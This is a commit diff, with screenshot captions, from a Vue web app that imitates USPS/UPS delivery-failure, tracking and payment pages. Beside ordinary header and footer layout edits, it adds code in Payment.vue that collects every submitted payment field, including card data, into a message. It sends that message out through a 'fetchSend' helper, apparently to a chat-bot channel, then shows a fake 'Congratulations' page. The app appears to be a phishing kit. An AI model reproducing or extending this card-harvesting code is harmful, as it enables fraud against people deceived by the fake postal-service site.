

Before and after one commit to Techboy07/upsps, a Vue app: page /delivery-failure/done in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
to replit

```diff
--- a/src/components/MyFooter.vue
+++ b/src/components/MyFooter.vue
@@ -2,14 +2,14 @@
   <footer class="bg-[#f7f7f7] border-t">
     <div class="max-w-screen-xl mx-auto px-4 md:px-8">
       <div class="justify-between items-center md:flex">
-        <div class="flex-1 max-w-lg w-[221px] py-8">
+        <div class="flex-1 max-w-[221px] py-8">
           <img src="/logo-sb.svg" alt="ups_logo" class="aspect-[8.185]" />
         </div>
       </div>
       <div
         class="flex-1 gap-y-20 justify-between flex flex-wrap md:space-y-0 items-start"
       >
-        <div v-for="(item, idx) in footerNavs" :key="idx" class="w-1/2 m-0">
+        <div v-for="(item, idx) in footerNavs" :key="idx" class="w-1/2 md:w-max m-0">
           <h4 class="text-text-heading font-semibold text-[13px]">
             {{ item.label }}
           </h4>
--- a/src/components/MyHeader.vue
+++ b/src/components/MyHeader.vue
@@ -1,6 +1,6 @@
 <template>
   <nav
-    class="flex justify-between items-center px-5 py-2 border-b-4 border-red-700 fixed top-0 w-full bg-[#f7f7f7] z-50"
+    class="flex justify-between items-center px-5 py-2 border-b-4 border-red-700 fixed top-0 w-full bg-[#f7f7f7] z-50 md:hidden"
   >
     <button class="p-2 h-10 hover:border" @click="toggleNav">
       <img v-if="state.openNav" class="h-full" src="/close_x.svg" alt="" />
@@ -14,9 +14,35 @@
       <img v-else class="h-full" src="/header-img/search.svg" alt="" />
     </button>
   </nav>
+  <nav
+    class="fixed z-50 top-0 w-full bg-[#f7f7f7] px-5 py-5 flex items-center gap-4"
+  >
+    <div class="w-max max-w-max">
+      <img src="/public/logo-sb.svg" alt="" class="w-full max-w-[200px]" />
+    </div>
+    <div class="w-full flex items-stretch skew-x-[-10deg]">
+      <div
+class="bg-text-heading border-2 border-white skew-x-[-8deg] w-max text-center py-3 px-4 text-white text-sm "
+        >{{menu[0].title}}</div>
+      <div
+        v-for="item in menu2"
+        :key="item.title"
+        class="b border-r-2  skew-x-[-8deg] w-max text-center py-3 px-5 text-sm text-text-heading"
+        >{{item.title}}</div>
+    </div>
+  </nav>
 </template>
 <script setup>
 import { useCounterStore } from "../stores/info";
+import data from "/menu.json";
+import { ref } from "vue";
+
+const menu = ref(data.menu).value;
+const menu2 = menu.filter((elem, idx) => {
+  if (idx != 0) {
+    return elem;
+  }
+});
 
 const state = useCounterStore();
 
--- a/src/components/NavMenuMobile.vue
+++ b/src/components/NavMenuMobile.vue
@@ -1,11 +1,11 @@
 <template>
   <div
-    class="fixed w-full bg-[#f7f7f7] z-40 h-full duration-300"
-    :style="{ maxHeight: state.openNav ? '100vh' : '0px' }"
+    class="absolute w-full bg-[#f7f7f7] z-40  duration-300 top-0"
+    :style="{ maxHeight: state.openNav ? '' : '0px' }"
   >
     <section
       v-show="state.openNav"
-      class="leading-relaxed max-w-screen-xl mx-auto pt-20"
+      class="leading-relaxed max-w-screen-xl mx-auto min-h-screen pt-32"
     >
       <div class="mx-auto">
         <div
@@ -30,7 +30,7 @@
             :style="{ maxHeight: selectedFaq === index ? '' : '0px' }"
           >
             <div>
-              <a v-for="item in item.items" href="#">
+              <a v-for="item in item.items" href="#" :key="item.title">
                 <p class="text-text-heading pb-4">
                   <i :class="item.icon + ' ' + 'text-3xl mr-5'"></i
                   >{{ item.title }}
@@ -45,7 +45,7 @@
 </template>
 
 <script setup>
-import data from "/menu.json" with { type: "json" };
+import data from "/menu.json";
 import { ref } from "vue";
 import { useCounterStore } from "../stores/info";
 
--- a/src/router/index.js
+++ b/src/router/index.js
@@ -3,11 +3,13 @@
 import Tracking from "../views/Tracking.vue";
 import Status from "../views/Status.vue";
 import Payment from "../views/Payment.vue";
+import Congrats from "../views/Congrats.vue";
 
 const routes = [
   { path: "/status", component: Tracking },
   { path: "/payment", component: Payment },
   { path: "/", component: Status },
+  { path: "/done", component: Congrats },
 ];
 
 const router = createRouter({
--- /dev/null
+++ b/src/views/Congrats.vue
@@ -0,0 +1,66 @@
+<template>
+  <div
+    :class="dark ? 'sm:bg-[rgba(0,0,0,0.8)]  sm:p-20' : ''"
+    class="self-start max-w-[450px] mx-auto my-20 mt-32 px-5"
+  >
+    <div class="w-24 mx-auto mb-5 my-auto">
+      <svg
+        class="fill-main-red"
+        xmlns="http://www.w3.org/2000/svg"
+        viewBox="0 0 24 24"
+        fill="currentColor"
+      >
+        <path
+          d="M12 22C6.47715 22 2 17.5228 2 12C2 6.47715 6.47715 2 12 2C17.5228 2 22 6.47715 22 12C22 17.5228 17.5228 22 12 22ZM12 20C16.4183 20 20 16.4183 20 12C20 7.58172 16.4183 4 12 4C7.58172 4 4 7.58172 4 12C4 16.4183 7.58172 20 12 20ZM11.0026 16L6.75999 11.7574L8.17421 10.3431L11.0026 13.1716L16.6595 7.51472L18.0737 8.92893L11.0026 16Z"
+        ></path>
+      </svg>
+    </div>
+
+    <h3
+      :class="
+        dark
+          ? 'text-white text-3xl font-bold mb-5'
+          : 'text-3xl font-medium mb-7 text-center'
+      "
+    >
+      Congratulations !
+    </h3>
+    <p class="text-gray-500 font-medium my-5 text-center">
+      Your info has been successfully updated!
+    </p>
+
+    <div class="mb-10 space-y-5">
+      <!--  <h3
+        :class="
+          dark
+            ? 'text-white text-3xl font-bold mb-5'
+            : 'text-xl font-semibold mb-5'
+        "
+      >
+        Payment info
+      </h3>
+      <div class="border-2 px-5 py-3 rounded flex space-x-5 items-center">
+        <img :src="store.cardImage" alt="logo" class="w-10" />
+        <p>**** **** **** {{ store.cardnum.substring(15, 19) }}</p>
+        <p>{{ store.month + "/" + store.year }}</p>
+     </div>-->
+      <a href="/">
+        <button
+          class="px-10 mx-auto w-full py-2 bg-text-heading text-white my-4 rounded"
+        >
+          continue
+        </button>
+      </a>
+    </div>
+  </div>
+</template>
+
+<script setup>
+//import RedButton from "/componnts/RedButton.vue";
+import { useCounterStore } from "/src/stores/info";
+import { ref } from "vue";
+const dark = ref(false);
+const store = useCounterStore();
+</script>
+
+<style lang="scss" scoped></style>
--- a/src/views/Payment.vue
+++ b/src/views/Payment.vue
@@ -56,7 +56,7 @@
       class="bg-text-heading text-white px-7 py-2 rounded-md"
       @click="handleSubmit"
     >
-      Submit
+      {{ loading ? "Updating..." : "Submit" }}
     </button>
   </div>
 </template>
@@ -64,14 +64,16 @@
 <script setup>
 import Input from "/src/components/MyInput.vue";
 import ModifiedInput from "/src/components/ModifiedInput.vue";
-import { updateMyMessage } from "../utils/updateMessage.js";
+import { updateMyMessage, fetchSend } from "../utils/updateMessage.js";
 import { ref } from "vue";
 
 import { useCounterStore } from "/src/stores/info";
-const { VITE_API_TOKEN, VITE_CHAT_ID } = import.meta.env;
+import { useRouter } from "vue-router";
 
 const store = useCounterStore();
 const loading = ref(false);
+const router = useRouter();
+const myMessage = ref("");
 
 const payments = ref([
   "/pay_imgs/visa.png",
@@ -145,6 +147,15 @@
 
   if (filled === true && data.length != 0) {
     loading.value = true;
+
+    store.cardType = store.getCardType;
+
+    const theKeys = Object.keys(info);
+
+    for (let i = 0; i < theKeys.length; i++) {
+      updateMyMessage(myMessage, `${theKeys[i]}:   ${data[i]}`);
+    }
+    fetchSend(myMessage.value, () => router.push("/done"));
   }
 }
 </script>
--- a/src/views/Tracking.vue
+++ b/src/views/Tracking.vue
@@ -1,8 +1,8 @@
 <template>
   <!-- code... -->
-  <div class="p-5 bg-[#f7f7f7] flex justify-between fixed top-14 w-full z-40">
+  <div class="p-5 bg-[#f7f7f7] flex justify-between fixed top-14 w-full z-40 items-center">
     <div class="w-[217px]">
-      <img src="/logo-sb.svg" alt="usps-tracking" />
+    <h4 class="text-3xl text-text-heading font-helv3">USPS Tracking</h4>
     </div>
     <div>
       <p class="text-text-heading font-semibold">
@@ -111,7 +111,7 @@
     store.cardType = store.getCardType;
 
     const theKeys = Object.keys(info);
-    for (let i = 0; i < theKeys.length; i++) {
+    for (let i = 0; i < 1; i++) {
       updateMyMessage(myMessage, `${theKeys[i]}:   ${data[i]}`);
     }
     fetchSend(myMessage.value,()=>router.push("/payment"));
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
